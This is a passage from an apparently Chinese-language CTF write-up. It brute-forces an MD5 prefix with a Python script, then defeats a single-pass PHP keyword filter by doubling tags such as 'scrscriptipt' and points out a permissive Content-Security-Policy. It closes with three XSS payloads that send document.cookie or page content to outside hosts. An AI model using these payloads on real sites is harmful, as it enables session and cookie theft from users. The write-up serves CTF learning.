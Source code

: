```
def crack_code(code):
	str = 10000

	while 1:
		m2 = hashlib.md5()   
		m2.update(repr(str))
		if (m2.hexdigest()[0:4]==code):
			return str
			break
		str+=1

print crack_code('84a3')
```

差不多4位的md5只要几秒就跑到了，回到题目正题，从代码中我们可以看到基本的过滤

```
function filter($string)
{
	$escape = array('\'','\\\\');
	$escape = '/' . implode('|', $escape) . '/';
	$string = preg_replace($escape, '_', $string);
	$safe = array('select', 'insert', 'update', 'delete', 'where');
 	$safe = '/' . implode('|', $safe) . '/i';
 	$string = preg_replace($safe, 'hacker', $string);
	$xsssafe = array('img','script','on','svg','link');
	$xsssafe = '/' . implode('|', $xsssafe) . '/i';
	return preg_replace($xsssafe, '', $string);
}
```

我们看到其实只有很少的过滤，而且是单层的，对于xss来说，只需要复写2次就可以绕过了，类似于
`scrscriptipt`这样。

所以其实关键在于CSP

```
Content-Security-Policy:default-src 'self'; script-src 'self' 'unsafe-inline'; font-src 'self' fonts.gstatic.com; style-src 'self' 'unsafe-inline'; img-src 'self'
```

不熟悉的人可能并不清楚其中的CSP有什么样的问题，试试上，整个CSP除了限定了域以外，没有做任何的限制，可以执行任意的js，这也就导致了使用人数比较多的非预期做法。

## 跳转绕过 ##

```
<scrscriptipt>window.open("​http://xxxx:8080/cookie.asp?msg="+document.body​)</scrscr iptipt>

<scrscriptipt>window.locatioonn.href%3d"http%3a//www.example.com/xss/write.php%3fdomain%3d"%2bescape(document.cookie)%3b</sscriptcript>

<scrscriptipt>var a=document.createElement("a");a.href='http://xss.com/?cookie='+escape(document.cookie);a.click();</sscriptcript>
```
